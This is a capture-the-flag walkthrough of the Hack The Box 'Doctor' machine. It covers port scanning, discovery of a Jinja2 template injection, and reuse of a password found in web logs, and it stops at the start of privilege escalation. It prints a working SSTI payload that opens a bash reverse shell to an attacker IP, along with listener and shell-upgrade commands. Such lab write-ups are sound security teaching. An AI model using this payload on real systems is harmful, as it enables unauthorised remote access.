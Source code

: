 # Hack the box
## Doctor writeup

### Enumeartion / Recon

+ nmap port scan - ```nmap -sC -sV -oN nmap.txt 10.10.10.209```
```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-06T15:57:27
| Not valid after:  2023-09-06T15:57:27
| MD5:   db23:4e5c:546d:8895:0f5f:8f42:5e90:6787
|_SHA-1: 7ec9:1bb7:343f:f7f6:bdd7:d015:d720:6f6f:19e2:098b
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
+ Open ports are
  + ssh on port 22
  + http on port 80
  + splunk on port 8089

+ Nothing interesting found on the website, looks like a static website, checking hostnames
+ Found a hostname ```doctors.htb``` on the website, adding to ```/etc/hosts``` file
+ Visiting doctors.htb sends us to another page
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/cde2e474-48ac-406a-aa38-107b86c7b564)
+ We can register and it creates an account for 20 minutes
+ Checking the source and see something strange - _<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->_
+ We can create posts on this website and it shows us the posts on the homepage
+ Checking /archive directory but nothing interesting
+ Checking the source of /archive and found something interesting, it has xml output of the posts that we create
+ TRYING SSTI hacktricks injection ```{{ 7*7 }}``` and we get 49 on the archive source ```view-source:http://doctors.htb/archive```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/58379fa5-5355-4014-aec1-113cebd7ae90)

+ Testing multiple Server Side Template Injection from https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
+ **SUCCESS** We have successful SSTI
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/7da4af12-c81a-428f-81bd-7caedaf941ff)

### Initial Foothold

+ Checking for reverse shell payloads on PayloadAllTheThings SSTI -
+ The one that worked was - ```{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/<ip>/4444 0>&1'").read()}}{%endif%}{%endfor%}```
+ Starting netcat listener - ```nc -lvnp 4444``` and getting reverse shell as web@doctor
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/2e42813a-dcba-415b-bdbf-b15d7951a808)
+ ```/home``` directory has another user shaun with user.txt file
+ We are part of the admin group, we can check audit logs for passwords
  ```bash
  id
  uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
  ```

### Lateral movement

+ To get user we need access to shaun user
+ Making the shell stable
  1. run this command ```python3 -c 'import pty;pty.spawn("/bin/bash")'``` on victim machine
  2. if the above doesn't work try - ```script -qc /bin/bash /dev/null```
  3. Do **ctrl+z** to background the process
  4. On your host machine in the same session do ```stty raw -echo;fg``` + Enter + Enter
  5. Now you have a stable shell
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/69c9d560-27e9-415b-9dfb-890b9f950dd6)

+ Running Linpeas on the machine
+ Found something in the logs
```bash
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
+ Trying the password for shaun user
+ BOOM, we are user
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/6dc8a106-f03d-4179-8165-504fc8b7999d)

### Privilege escalation

+ Remebering that splunk was running on the machine
+ Checking who is running splunk
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/e21dea3b-0b59-4aef-b05d-4695d319b512)
